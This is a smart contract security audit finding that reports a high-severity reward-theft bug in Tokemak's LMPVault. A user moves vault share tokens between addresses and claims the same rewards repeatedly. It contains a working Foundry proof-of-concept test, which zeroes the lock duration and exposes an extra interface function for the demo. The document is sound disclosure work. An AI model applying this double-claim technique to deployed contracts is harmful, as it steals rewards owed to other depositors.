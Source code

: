 # H-01 User can transfer LMPVault shares to claim rewards multiple times

## Severity

High

## Summary

Users deposit funds into LMPVault through the router. They get a share of the generated rewards. ERC20 token represents those shares. Anyone can transfer those shares between multiple addresses to claim rewards more times.

## Vulnerability Detail

A user gets tokens for every deposit into LMPVault. Those tokens represent shares on Vault deposits and rewards.
After rewards accumulate, the user can call the collectRewards function to get rewards based on his shares.
No mechanism prohibits the user from sending those share tokens to another address and claiming rewards multiple times.
Malicious user steals other users' rewards with this simple technique.

### POC

Paste this test function to **LMPVault-Withdraw.t.sol**.

It is necessary to update **IBaseRewarder.sol** for the purpose of this demo. Paste ```function setTokeLockDuration(uint256 _tokeLockDuration) external;``` to expose the function.

Run the test using this command ```forge test --match-contract LMPVaultMintingTests --match-test test_stealRewards```.

```solidity
function test_stealRewards() public {
    // Prepare rewards
    _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
    _lmpVault.rewarder().addToWhitelist(address(this));
    // setTokeLockDuration not present in IBaseRewarder.sol - function setTokeLockDuration(uint256 _tokeLockDuration) external;
    // Lock duration is set to zero for the demonstration that the user can claim rewards with the same shares transferred to another address
    _lmpVault.rewarder().setTokeLockDuration(0);
    _toke.mint(address(this), 1000e18);
    _toke.approve(address(_lmpVault.rewarder()), 1000e18);
    _lmpVault.rewarder().queueNewRewards(1000e18);

    // Prepare users
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address attacker1 = makeAddr("3");
    address attacker2 = makeAddr("4");
    _asset.mint(user1, 1000);
    _asset.mint(user2, 1000);
    _asset.mint(attacker1, 1000);

    assertEq(_lmpVault.balanceOf(address(this)), 0);
    assertEq(_lmpVault.rewarder().balanceOf(address(this)), 0);

    // Deposit
    vm.startPrank(attacker1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, attacker1);
    vm.stopPrank();

    vm.startPrank(user1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user1);
    vm.stopPrank();

    vm.startPrank(user2);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user2);
    vm.stopPrank();

    assert(_toke.balanceOf(attacker1) == 0);
    assert(_toke.balanceOf(attacker2) == 0);

    // Warp forward
    vm.roll(block.number + 10_000);

    // Get rewards and transfer shares to the second address
    vm.startPrank(attacker1);
    _lmpVault.rewarder().getReward();
    _lmpVault.transfer(attacker2, 1000);
    vm.stopPrank();

    // Get rewards with seconds address
    vm.startPrank(attacker2);
    _lmpVault.rewarder().getReward();
    vm.stopPrank();
    
    assert(_toke.balanceOf(attacker1) > 0);
    assert(_toke.balanceOf(attacker2) > 0);
}
```

## Impact

Rewards of other users get stolen by one malicious user who transfers share tokens between multiple addresses.

## Code Snippet

[https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L95C5-L117C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L95C5-L117C6)

[https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128C4-L140C6](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128C4-L140C6)

## Tool used

Manual Review

## Recommendation

Prohibit share token transfers between users or track eligibility.
